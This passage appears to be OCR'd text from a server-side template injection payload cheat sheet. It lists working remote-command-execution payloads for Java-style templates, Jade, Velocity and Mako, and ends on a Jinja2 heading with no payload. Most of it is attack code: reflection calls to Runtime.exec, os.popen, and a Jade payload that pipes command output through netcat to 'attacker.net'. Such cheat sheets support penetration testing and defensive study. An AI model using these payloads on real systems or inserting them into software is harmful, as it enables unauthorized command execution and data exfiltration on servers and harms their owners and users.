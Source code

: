 ```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

## Jade / Codepen

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

## Velocity

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

## Mako

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

## Jinja2

[Official website](http://jinja.pocoo.org/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.  
